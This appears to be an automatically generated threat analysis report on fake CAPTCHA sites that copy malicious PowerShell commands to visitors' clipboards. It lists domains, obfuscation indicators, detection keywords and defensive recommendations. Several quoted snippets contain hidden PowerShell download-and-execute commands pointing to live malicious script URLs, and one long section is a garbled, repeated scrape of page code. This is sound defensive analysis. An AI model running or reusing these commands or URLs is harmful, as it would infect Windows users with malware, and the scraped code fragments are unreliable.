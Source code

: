 # ClickGrab Threat Analysis Report - 2025-06-16

*Generated on 2025-06-17 08:40:32*

## Executive Summary

- **Total sites analyzed**: 32
- **Sites with malicious content**: 18
- **Unique domains encountered**: 28
- **Total URLs extracted**: 137
- **PowerShell download attempts**: 19
- **Clipboard manipulation instances**: 32

## Domain Analysis

### Most Frequently Encountered Domains

- **www.google.com**: 28 occurrences
- **use.fontawesome.com**: 16 occurrences
- **staplebrokenmetaliyro.blogspot.com**: 15 occurrences
- **www.blogger.com**: 13 occurrences
- **cdnjs.cloudflare.com**: 12 occurrences
- **www.webgo.de**: 10 occurrences
- **t.me**: 6 occurrences
- **www.w3.org**: 6 occurrences
- **browser.certif-update.website**: 4 occurrences
- **svetvip.ru**: 4 occurrences
- **api.whatsapp.com**: 3 occurrences
- **mc.yandex.ru**: 2 occurrences
- **www.blogblog.com**: 2 occurrences
- **www.offset.com**: 2 occurrences
- **aatox.com**: 1 occurrences

## URL Pattern Analysis

### reCAPTCHA imagery
*16 occurrences across 1 distinct URLs*

- `https://www.google.com/recaptcha/about/images/reCAPTCHA-logo@2x.png` (16 times)

### Font resources
*28 occurrences across 2 distinct URLs*

- `https://use.fontawesome.com/releases/v5.0.0/css/all.css` (16 times)
- `https://cdnjs.cloudflare.com/ajax/libs/font-awesome/6.0.0-beta3/css/all.min.css` (12 times)

### CDN hosted scripts
*13 occurrences across 2 distinct URLs*

- `https://cdnjs.cloudflare.com/ajax/libs/font-awesome/6.0.0-beta3/css/all.min.css` (12 times)
- `https://irp.cdn-website.com/45d8c6e0/files/uploaded/32.ps1` (1 times)

### Google resources
*30 occurrences across 9 distinct URLs*

- `https://www.google.com/recaptcha/about/images/reCAPTCHA-logo@2x.png` (16 times)
- `https://www.google.com/intl/en/policies/privacy/` (4 times)
- `https://www.google.com/intl/en/policies/terms/` (4 times)
- `https://www.google.com` (1 times)
- `http://www.google.com/2005/gml/b` (1 times)
- *...and 4 more distinct URLs*

## Suspicious Keyword Analysis

**Total Keywords Found**: 149 (23 unique)

### Keyword Categories

#### Social Engineering
*7 unique keywords*

- `Verify You Are Human`
- `Verification ID`
- `I'm not a robot`
- `Verification Hash`
- `To better prove you are not a robot`
- `I am not a robot`
- `reCAPTCHA Verification`

#### Obfuscation Indicators
*8 unique keywords*

- `eval(`
- `atob(`
- `\x3e`
- `document.write`
- `\x27`
- `\x3c`
- `\x22`
- `\x3d`

#### System Commands
*4 unique keywords*

- `<script>`
- `<script src=`
- `exec(`
- `Command`

#### Verification Text
*1 unique keywords*

- `✅`

#### Technical Terms
*3 unique keywords*

- `display:none`
- `_0x`
- `navigator.clipboard.writeText`

### Most Frequent Keywords

- **<script>**: 22 occurrences
- **I'm not a robot**: 17 occurrences
- **✅**: 16 occurrences
- **I am not a robot**: 16 occurrences
- **reCAPTCHA Verification**: 16 occurrences
- **To better prove you are not a robot**: 15 occurrences
- **Verification ID**: 14 occurrences
- **Verify You Are Human**: 12 occurrences
- **Verification Hash**: 3 occurrences
- **_0x**: 2 occurrences
- **atob(**: 2 occurrences
- **document.write**: 2 occurrences
- **display:none**: 2 occurrences
- **navigator.clipboard.writeText**: 1 occurrences
- **<script src=**: 1 occurrences

### Similar Keyword Patterns

*Groups of keywords that appear to be variations of the same theme:*

**Group 1**: `Verification ID`, `Verification Hash`

**Group 2**: `I'm not a robot`, `I am not a robot`

**Group 3**: `<script>`, `<script src=`

**Group 4**: `\x3d`, `\x3c`, `\x3e`

**Group 5**: `\x22`, `\x27`

## JavaScript Obfuscation Analysis

**Obfuscation Sophistication Score**: 4/7

### Detected Obfuscation Techniques

#### Hexadecimal Variables
*Variables using hexadecimal naming convention*

**Instances Found**: 32

**Examples:**
- `_0x1BA5`
- `_0xC4EB`
- `_0x5910`
- `_0xA804`
- `_0x1B70`

#### Array Obfuscation
*Obfuscated arrays with hex variable names*

**Instances Found**: 2

**Examples:**
- `var _0x1BA5=["hMT2dERVdFQkR VVsSlNTa2"]`
- `var _0x1B70=["OeEt1QUFBQUFB R1TDY5Mjd"]`

#### Dynamic Property Access
*Dynamic property access to hide function names*

**Instances Found**: 2

**Examples:**
- `OeEt1QUFBQUFB R1TDY5Mjd`
- `hMT2dERVdFQkR VVsSlNTa2`

#### Document Write
*Dynamic code injection via document.write*

**Instances Found**: 2

**Examples:**
- `document.write(`

### Hexadecimal Variable Names

*These obfuscated variable names are commonly used to hide malicious functionality:*

- `_0x1BA5`
- `_0xC4EB`
- `_0x5910`
- `_0xA804`
- `_0x1B70`
- `_0x43F0`

## Clipboard Manipulation Analysis

Detected clipboard manipulation in **32** instances.

### Document.Execcommand Copy
Found in **32** snippets (100.0% of clipboard code)

**Examples:**

```javascript
document.execCommand("copy")
```

### Textarea Manipulation
Found in **32** snippets (100.0% of clipboard code)

## Clipboard Attack Flow Analysis

**Attack Sophistication**: 5/7 components detected
**Total Technique Instances**: 161

### Attack Flow Components

*The following components show how the clipboard attack is executed:*

#### Content Injection
*Injecting malicious content into elements*

**Instances**: 16
**Examples**: `.textContent =`

#### DOM Manipulation
*Adding elements to the DOM*

**Instances**: 16
**Examples**: `append(`

#### Selection Methods
*Selecting content for copying*

**Instances**: 48
**Examples**: `.select()`

#### Clipboard Operations
*Executing clipboard copy operations*

**Instances**: 49
**Examples**: `execCommand("copy"`, `navigator.clipboard`

#### Cleanup Operations
*Removing temporary elements*

**Instances**: 32
**Examples**: `removeChild`

### Malicious Payload Construction

*How the final clipboard payload is assembled:*

#### Hash Generation
**Instances**: 1
**Examples:**
- `Hash: <span id="verification-id">1110</span>" ="modal"> <div class="modal-content"> <p>Please } function hideCaptchaLoading() { che } function hideCaptchaCheckbox() { che nt)) { document.getElementById("mobileWarningModal").style.display = "b et checkboxWindow = document.getElementById("checkbox-window"); let chec let checkboxBtn = document.getElementById("checkbox"); let chec heckboxBtnSpinner = document.getElementById("spinner"); let veri let verifywindow = document.getElementById("verify-window"); functi ber(); document.getElementById('verification-id').textContent = veri ect(); document.execCommand("copy"); doc tempTextArea.select(); docum </div> <script> document.addEv }); </script> <script> let checkb ication Hash: <span id="verification-id">1110</span>" s="modal"> <div class="modal-content"> <p>Please } function hideCaptchaLoading() { chec } function hideCaptchaCheckbox() { chec ent)) { document.getElementById("mobileWarningModal").style.display = "b et checkboxWindow = document.getElementById("checkbox-window"); let check let checkboxBtn = document.getElementById("checkbox"); let check heckboxBtnSpinner = document.getElementById("spinner"); let verif let verifywindow = document.getElementById("verify-window"); function mber(); document.getElementById('verification-id').textContent = veri lect(); document.execCommand("copy"); docu tempTextArea.select(); docume </div> <script> document.addEve }); </script> <script> let checkbo ication Hash: <span id="verification-id">1110</span>" s="modal"> <div class="modal-content"> <p>Please } function hideCaptchaLoading() { chec } function hideCaptchaCheckbox() { chec ent)) { document.getElementById("mobileWarningModal").style.display = "b et checkboxWindow = document.getElementById("checkbox-window"); let check let checkboxBtn = document.getElementById("checkbox"); let check heckboxBtnSpinner = document.getElementById("spinner"); let verif let verifywindow = document.getElementById("verify-window"); function mber(); document.getElementById('verification-id').textContent = veri lect(); document.execCommand("copy"); docu tempTextArea.select(); docume </div> <script> document.addEve }); </script> <script> let checkbo ification ID: <span id="verification-id">146820</span>" } function hideCaptchaLoading() { che } function hideCaptchaCheckbox() { che et checkboxWindow = document.getElementById("checkbox-window"); let chec let checkboxBtn = document.getElementById("checkbox"); let chec heckboxBtnSpinner = document.getElementById("spinner"); let veri let verifywindow = document.getElementById("verify-window"); functi andomNumber(); document.getElementById('verification-id').textContent = veri ect(); document.execCommand("copy"); doc tempTextArea.select(); docum href="https://cdnjs.cloudflare.com/ajax/libs/font- </div> <script> let checkb ification ID: <span id="verification-id">146820</span>" } function hideCaptchaLoading() { che } function hideCaptchaCheckbox() { che et checkboxWindow = document.getElementById("checkbox-window"); let chec let checkboxBtn = document.getElementById("checkbox"); let chec heckboxBtnSpinner = document.getElementById("spinner"); let veri let verifywindow = document.getElementById("verify-window"); functi andomNumber(); document.getElementById('verification-id').textContent = veri ect(); document.execCommand("copy"); doc tempTextArea.select(); docum href="https://cdnjs.cloudflare.com/ajax/libs/font- </div> <script> let checkb ification ID: <span id="verification-id">146820</span>" } function hideCaptchaLoading() { che } function hideCaptchaCheckbox() { che et checkboxWindow = document.getElementById("checkbox-window"); let chec let checkboxBtn = document.getElementById("checkbox"); let chec heckboxBtnSpinner = document.getElementById("spinner"); let veri let verifywindow = document.getElementById("verify-window"); functi andomNumber(); document.getElementById('verification-id').textContent = veri ect(); document.execCommand("copy"); doc tempTextArea.select(); docum href="https://cdnjs.cloudflare.com/ajax/libs/font- </div> <script> let checkb ification ID: <span id="verification-id">146820</span>" } function hideCaptchaLoading() { che } function hideCaptchaCheckbox() { che et checkboxWindow = document.getElementById("checkbox-window"); let chec let checkboxBtn = document.getElementById("checkbox"); let chec heckboxBtnSpinner = document.getElementById("spinner"); let veri let verifywindow = document.getElementById("verify-window"); functi andomNumber(); document.getElementById('verification-id').textContent = veri ect(); document.execCommand("copy"); doc tempTextArea.select(); docum href="https://cdnjs.cloudflare.com/ajax/libs/font- </div> <script> let checkb ification ID: <span id="verification-id">146820</span>" } function hideCaptchaLoading() { che } function hideCaptchaCheckbox() { che et checkboxWindow = document.getElementById("checkbox-window"); let chec let checkboxBtn = document.getElementById("checkbox"); let chec heckboxBtnSpinner = document.getElementById("spinner"); let veri let verifywindow = document.getElementById("verify-window"); functi andomNumber(); document.getElementById('verification-id').textContent = veri ect(); document.execCommand("copy"); doc tempTextArea.select(); docum href="https://cdnjs.cloudflare.com/ajax/libs/font- </div> <script> let checkb ification ID: <span id="verification-id">146820</span>" } function hideCaptchaLoading() { che } function hideCaptchaCheckbox() { che et checkboxWindow = document.getElementById("checkbox-window"); let chec let checkboxBtn = document.getElementById("checkbox"); let chec heckboxBtnSpinner = document.getElementById("spinner"); let veri let verifywindow = document.getElementById("verify-window"); functi andomNumber(); document.getElementById('verification-id').textContent = veri ect(); document.execCommand("copy"); doc tempTextArea.select(); docum href="https://cdnjs.cloudflare.com/ajax/libs/font- </div> <script> let checkb ification ID: <span id="verification-id">146820</span>" } function hideCaptchaLoading() { che } function hideCaptchaCheckbox() { che et checkboxWindow = document.getElementById("checkbox-window"); let chec let checkboxBtn = document.getElementById("checkbox"); let chec heckboxBtnSpinner = document.getElementById("spinner"); let veri let verifywindow = document.getElementById("verify-window"); functi andomNumber(); document.getElementById('verification-id').textContent = veri ect(); document.execCommand("copy"); doc tempTextArea.select(); docum href="https://cdnjs.cloudflare.com/ajax/libs/font- </div> <script> let checkb ification ID: <span id="verification-id">146820</span>" } function hideCaptchaLoading() { che } function hideCaptchaCheckbox() { che et checkboxWindow = document.getElementById("checkbox-window"); let chec let checkboxBtn = document.getElementById("checkbox"); let chec heckboxBtnSpinner = document.getElementById("spinner"); let veri let verifywindow = document.getElementById("verify-window"); functi andomNumber(); document.getElementById('verification-id').textContent = veri ect(); document.execCommand("copy"); doc tempTextArea.select(); docum href="https://cdnjs.cloudflare.com/ajax/libs/font- </div> <script> let checkb ification ID: <span id="verification-id">146820</span>" } function hideCaptchaLoading() { che } function hideCaptchaCheckbox() { che et checkboxWindow = document.getElementById("checkbox-window"); let chec let checkboxBtn = document.getElementById("checkbox"); let chec heckboxBtnSpinner = document.getElementById("spinner"); let veri let verifywindow = document.getElementById("verify-window"); functi andomNumber(); document.getElementById('verification-id').textContent = veri ect(); document.execCommand("copy"); doc tempTextArea.select(); docum href="https://cdnjs.cloudflare.com/ajax/libs/font- </div> <script> let checkb ification ID: <span id="verification-id">146820</span>" } function hideCaptchaLoading() { che } function hideCaptchaCheckbox() { che et checkboxWindow = document.getElementById("checkbox-window"); let chec let checkboxBtn = document.getElementById("checkbox"); let chec heckboxBtnSpinner = document.getElementById("spinner"); let veri let verifywindow = document.getElementById("verify-window"); functi andomNumber(); document.getElementById('verification-id').textContent = veri ect(); document.execCommand("copy"); doc tempTextArea.select(); docum href="https://cdnjs.cloudflare.com/ajax/libs/font- </div> <script> let checkb ification ID: <span id="verification-id">146820</span>" } function hideCaptchaLoading() { che } function hideCaptchaCheckbox() { che et checkboxWindow = document.getElementById("checkbox-window"); let chec let checkboxBtn = document.getElementById("checkbox"); let chec heckboxBtnSpinner = document.getElementById("spinner"); let veri let verifywindow = document.getElementById("verify-window"); functi andomNumber(); document.getElementById('verification-id').textContent = veri ect(); document.execCommand("copy"); doc tempTextArea.select(); docum href="https://cdnjs.cloudflare.com/ajax/libs/font- </div> <script> let checkb ification ID: <span id="verification-id">146820</span>" } function hideCaptchaLoading() { che } function hideCaptchaCheckbox() { che et checkboxWindow = document.getElementById("checkbox-window"); let chec let checkboxBtn = document.getElementById("checkbox"); let chec heckboxBtnSpinner = document.getElementById("spinner"); let veri let verifywindow = document.getElementById("verify-window"); functi andomNumber(); document.getElementById('verification-id').textContent = veri ect(); document.execCommand("copy"); doc tempTextArea.select(); docum href="https://cdnjs.cloudflare.com/ajax/libs/font- </div> <script> let checkb --) { my_div = document.getElementById('new_vote_'+r[1]+'_'+i); i while(my_div = document.getElementById('new_vote_'+r[1]+'_'+i)) { 02270945"></script> <script>new Image().src='htt umItems; i++) { eval('var timeOut'+popupI eval("timeIn"+uid+" = set 00);"); eval("clearTimeout(timeOu ; eval("clearTimeout(timeIn n"+uid+")"); eval("timeOut"+uid+" = se ection-list" style="display:none;"> <div clas ss="submenu" style="display:none;"> <li> <a > <ul style="display:none;"> <li> ification ID: <span id="verification-id">146820</span>" } function hideCaptchaLoading() { chec } function hideCaptchaCheckbox() { chec et checkboxWindow = document.getElementById("checkbox-window"); let check let checkboxBtn = document.getElementById("checkbox"); let check heckboxBtnSpinner = document.getElementById("spinner"); let verif let verifywindow = document.getElementById("verify-window"); function mber(); document.getElementById('verification-id').textContent = veri lect(); document.execCommand("copy"); docu tempTextArea.select(); docume </div> <script> let checkbo ch1', 'search_top', document.getElementById('BlogSearch1'), {}, 'displayModeF Header1', 'header', document.getElementById('Header1'), {}, 'displayModeF log1', 'page_body', document.getElementById('Blog1'), {'cmtInteractions sts1', 'page_body', document.getElementById('PopularPosts1'), {}, 'displayModeF bution1', 'footer', document.getElementById('Attribution1'), {}, 'displayModeF e1', 'sidebar_top', document.getElementById('Profile1'), {}, 'displayModeF , 'sidebar_bottom', document.getElementById('ReportAbuse1'), {}, 'displayModeF 5/gml/expr'> <head> <script> let linkNam dio:not([controls]){display:none;height:0}[hidden],t 0}[hidden],template{display:none}a{background:transp eak-word } .hidden{ display:none } .invisible{ visib } input::-ms-clear{ display:none } .blogger-logo,.sv mobile_video_class{ display:none } .bg-photo{ backgr .show-more.hidden{ display:none } .inline-ad{ displ :none } .inline-ad{ display:none; max-width:100%; ov } } .item-control{ display:none } #comments{ border read .thread-count{ display:none } #comments .commen ] p.comment-footer{ display:none } #comment-editor-s comment-editor-src{ display:none } .comments .commen ed-top-placeholder{ display:none } .collapsed-header eader .replaced h1{ display:none } .centered-top-con ader-image-wrapper{ display:none } .centered-top-con ible>:not(summary){ display:none } .collapsible[open kit-details-marker{ display:none } .collapsible-titl itle .chevron-down{ display:none } .flat-button{ cur ow-popup li.hidden{ display:none } .pill-button{ bac x:101 } .search h3{ display:none } .search form{ dis x } .search form>*{ display:none } .search.focused f search-input label{ display:none } .centered-top-pla search-expand-text{ display:none } .search-close{ di ng .sharing-button{ display:none } .widget.Sharing . ng-buttons li span{ display:none } .post-share-butto are-buttons.hidden{ display:none } .sharing-button{ tainer .navigation{ display:none } } .dialog{ box-sh .FollowByEmail h3{ display:none } .subscribe-popup .bg-photo-overlay{ display:none } body#layout .page layout .navigation{ display:none } body#layout .side ody#layout .search{ display:none } .centered-top-con ff; cursor:pointer; display:none; height:48px; margi .sticky .Header p{ display:none } .sticky .PageList .sticky .PageList{ display:none } .search-focused>* t-holder .continue{ display:none } #comment-editor{ .widget.Profile h2`

## Attack Pattern Reconstruction

### Malicious Command Analysis

Identified **4** malicious command preparations.

**Command 1:**
```powershell
powershell 
```

**Context:**
```javascript
WindowStyle Hidden -Command \"iex (irm 'https://aatox.com/verify/45.ps1')\""; const commandToRun = "powershell " + htaP...
```

**Command 2:**
```powershell
powershell 
```

**Context:**
```javascript
 = "-w hidden -c \"iwr 'https://yogasitesdev.wpengine.com/2/15.ps1' | iex\""; const commandToRun = "powershell " + htaPat...
```

**Command 3:**
```powershell
powershell 
```

**Context:**
```javascript
...idden -c \"iwr 'https://yogasitesdev.wpengine.com/2/15.ps1' | iex\""; const commandToRun = "powershell " + htaPat...
```

**Command 4:**
```powershell
powershell 
```

**Context:**
```javascript
 = "-w hidden -c \"iwr 'https://yogasitesdev.wpengine.com/2/15.ps1' | iex\""; const commandToRun = "powershell " +...
```

### Malicious Download Sources

- `https://aatox.com/verify/45.ps1`
- `https://irp.cdn-website.com/45d8c6e0/files/uploaded/32.ps1`
- `https://yogasitesdev.wpengine.com/2/15.ps1`

## Key Findings

1. **Prevalence**: 56.2% of analyzed sites contained malicious content
2. **Primary Attack Vector**: Fake CAPTCHA verification leading to clipboard hijacking
3. **Target Platform**: Windows systems via PowerShell execution
4. **Social Engineering**: Sophisticated UI mimicking legitimate Google reCAPTCHA

## Recommendations

1. **User Education**: Warn users about fake CAPTCHA verification schemes
2. **Clipboard Monitoring**: Implement clipboard monitoring for suspicious PowerShell commands
3. **URL Filtering**: Block known malicious domains identified in this analysis
4. **PowerShell Execution Policy**: Restrict PowerShell execution in corporate environments

